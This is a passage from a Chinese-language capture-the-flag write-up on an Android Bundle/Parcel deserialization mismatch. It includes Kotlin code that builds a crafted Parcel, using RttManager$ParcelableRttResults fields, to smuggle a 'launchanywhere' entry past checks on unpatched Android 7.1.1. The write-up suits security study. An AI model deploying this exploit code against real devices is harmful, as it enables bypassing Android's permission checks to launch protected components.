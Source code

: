 ```kotlin
newPc.setDataPosition(0)

// raw = newPc.marshall()

var bundle2 = Bundle(javaClass.classLoader)
bundle2.readFromParcel(newPc)
keyset = bundle2.keySet()
return
```

最终 Payload 内容，高亮处为错位被丢弃的内容
{% asset_img 2020-05-05-14-49-06.png %}

最后还有一点注意事项：`Bundle` 在进行序列化时的顺序是由一个 `ArrayMap` 内部的顺序决定的，并不能保证和最初反序列化时一致。因此，需要对第一个键值对的key进行一些尝试（在调试器里可以看到hash），从而保证这个对象始终排在第一个。

Bonus: 在未 Patch 原始漏洞的系统（如 7.1.1 模拟器）上，也可以用如下代码完成解题（有部分注释可能有错误）,主要思路基于 CTS 测试
```kotlin
val data = Parcel.obtain()
val bundleLenPos = data.dataPosition()
data.writeInt(-0x1)
data.writeInt(0x4C444E42)
val bundleStartPos = data.dataPosition()
data.writeInt(2)
data.writeString("launchanywhere")
data.writeInt(4)
data.writeString("android.net.wifi.RttManager\$ParcelableRttResults")
data.writeInt(1) // numResults
data.writeString(null) // bssid
data.writeInt(0) // burstNumber
data.writeInt(0) // measurementFrameNumber
data.writeInt(0) // successMeasurementFrameNumber
data.writeInt(0) // frameNumberPerBurstPeer
data.writeInt(0)
data.writeInt(0)
data.writeInt(0)
data.writeLong(0) // ts
data.writeInt(0)
data.writeInt(0)
data.writeInt(0)
data.writeLong(0) // rtt
data.writeLong(0)
data.writeLong(0)
data.writeInt(0) // distance
data.writeInt(0)
data.writeInt(0)
data.writeInt(0)
data.writeInt(0) // End of first lvl
data.writeInt(0xff) // LCI ID (Skipped)
// 这里可以实现消除任意长度（0-254）的内容，因为写错的是一个ByteArray
data.writeInt(28)   // LCR ID
data.writeInt(28)   // LCR Arr Len
data.writeInt(28)   // W: LCR ID, R: LCR Arr Len
// 28 Bytes
data.writeInt(1)    // W: Secure, R: LCR Arr 0-3
data.writeInt(2)    // W:???, -1  R: LCR Arr 4-7
data.writeInt(3)    // W:???, 13  R: LCR Arr 8-11
// Repeat
data.writeInt(4)
data.writeInt(5)
data.writeInt(6)
data.writeInt(7)
data.writeInt(0)

```